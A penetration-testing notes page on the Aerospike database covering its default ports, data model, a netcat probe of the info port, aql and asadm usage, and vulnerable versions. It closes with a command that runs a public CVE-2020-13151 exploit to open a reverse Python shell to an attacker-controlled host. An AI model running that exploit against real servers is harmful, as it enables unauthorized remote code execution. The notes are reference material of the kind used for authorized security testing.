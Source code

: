 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Aerospike

## 101

**Aerospike** is a fast, NoSQL key-value store used in real-time apps—think session storage, user profiles, ad tech, etc. You might encounter it in environments that value _speed over complexity_, often with large-scale deployments.

<table><thead><tr><th width="176.99993896484375">Port</th><th width="208.66668701171875">Protocol</th><th>Description</th></tr></thead><tbody><tr><td><code>3000</code></td><td>TCP</td><td>Client access (main DB port)</td></tr><tr><td><code>3001</code></td><td>TCP</td><td>Internal fabric (cluster communication)</td></tr><tr><td><code>3002</code></td><td>TCP</td><td>Heartbeat (node monitoring)</td></tr><tr><td><code>3003</code></td><td>TCP</td><td>Info (optional; monitoring/statistics)</td></tr><tr><td><code>3004-3005</code></td><td>TCP</td><td>TLS equivalents of above (if enabled)</td></tr></tbody></table>

<table><thead><tr><th width="121.00006103515625">Aerospike</th><th width="98.6666259765625">RDBMS </th><th>Description</th></tr></thead><tbody><tr><td>Namespace</td><td>Database</td><td>Top-level data container. Configured with storage engine, replication, TTL, etc.</td></tr><tr><td>Set</td><td>Table</td><td>Logical grouping of records within a namespace; a table without enforced schema.</td></tr><tr><td>Record</td><td>Row</td><td>A single data entry identified by a key.</td></tr><tr><td>Bin</td><td>Column</td><td>Key-value pair inside a record.</td></tr></tbody></table>

## Manual Probe

```bash
$ nc -nv 192.168.X.143 3003
(UNKNOWN) [192.168.X.143] 3003 (?) open
help
...
namespace;truncate-namespace-undo;truncate-undo;version;
version
Aerospike Community Edition build 5.1.0.1
```

## Usage

{% tabs %}
{% tab title="aql" %}
To interact the **`aql`** (Aerospike Query Language) utility can be used:

```bash
aql -h <host> -p 3000
```

Once connected, basic commands look like:

```sql
show namespaces;
show sets;
select * from <namespace>.<set>;
```
{% endtab %}

{% tab title="asadm" %}
For deeper inspection/admin tasks the Admin Tool (`asadm`) can be used:

```bash
asadm -h <host> -p 3000
```
{% endtab %}
{% endtabs %}

## Versions

### < 5.1.0.3

Vulnerable to[ CVE-2020-13151](https://nvd.nist.gov/vuln/detail/CVE-2020-13151) with a [PoC](https://github.com/b4ny4n/CVE-2020-13151) available.

```bash
$ ./cve2020-13151.py --ahost aero --pythonshell --lhost=192.168.X.154 --lport=80
```
